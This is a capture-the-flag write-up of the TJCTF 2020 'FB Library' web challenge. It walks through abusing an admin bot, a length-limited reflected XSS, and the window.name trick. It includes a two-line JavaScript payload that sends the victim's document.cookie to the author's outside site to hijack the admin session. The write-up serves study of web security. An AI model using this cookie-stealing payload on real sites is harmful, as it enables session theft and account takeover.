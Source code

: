 ```yaml
---
title: TJCTF 2020 FB Library Writeup
category: cyber-security
tags: [ctf]
---
```


I want to make a writeup for this one because it was one of my favourites and I can't find a writeup for it yet on [CTFTime](https://ctftime.org/event/928/tasks/).

Here was the description:

![problem description](/assets/images/fb_library.png)

The [linked website](https://fb_library.tjctf.org/) had a login and registration system that then allowed you to view a catalog of books and then report them to the admin. When you reported, you would go to `/report?url=<book url>` with a success message. We realized we could make it `report` any valid url and it would then open a get request to that url

So for example, when I reported my website [https://uzpg.me](https://uzpg.me), I noticed a new GET request with a User-Agent `Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.0 Safari/537.36`. The most important part here is the **HeadlessChrome** part which is a [Headless Browser](https://en.wikipedia.org/wiki/Headless_browser). A headless browser is an automated way of using a browser without human action.

This meant that we could try and access the cookies and data of this headless browser instance to compromise the `fb_library`. Indeed, the login system we noticed above had a `session` cookie that would log you in. This meant that if we could steal the value of that cookie, we would have admin access.

At first, I tried to report a url that had a `script` that sent me its cookies. Unfortunately, they were empty, because of [Same-Origin Policy](https://en.wikipedia.org/wiki/Same-origin_policy) which prevents a malicious website of accessing cookies of another different domain like the `fb_library` one. 

This meant, the only way I could execute my cookie stealer would be by embedding the payload on the `fb_library` domain. This meant finding another XSS on the website itself. We noticed Reflected XSS in the search bar that allowed you to look for books. But the length of the field was struncated AFTER 20 characters!!! 

Building a cookie stealer in 20 characters would be impossible, so we had to find another way. Some [funny posts](https://jlajara.gitlab.io/posts/2019/11/30/XSS_20_characters.html) had the idea of buying a short domain, but the admins told us no purchase was required. 

My teammate [Techno-Disaster](https://technodisaster.wtf) 	scoured the web and found the very interesting `window.name` [property](https://developer.mozilla.org/en-US/docs/Web/API/Window/name). This allows you to store a string across different websites. So for example, I can set its value on my own, and then if I redirect to their website, its value will stay the same. Do you see where I am going? :)

So our trick was to make it go to our website and then have a script that would change the `window.name` property to our payload, and then redirect it to the vulnerable search page by setting the query parameter to `<script>eval(name)`. This evaluates our payload stored in the `window.name` property and executes our cookie stealing payload.

```js
window.name = "window.location = 'https://uzpg.me/' + document.cookie;";
location = "https://fb_library.tjctf.org/search?q=<script>eval(name)/*"";
```

When executed, this `window.name` payload executed on the `fb_library` domain would redirect to my website + the cookie.

At that point, all I had to do was look at the cookie and then change my `session` cookie to log in as admin, and then I had the flag:

![flag](/assets/images/flag_lib.png)
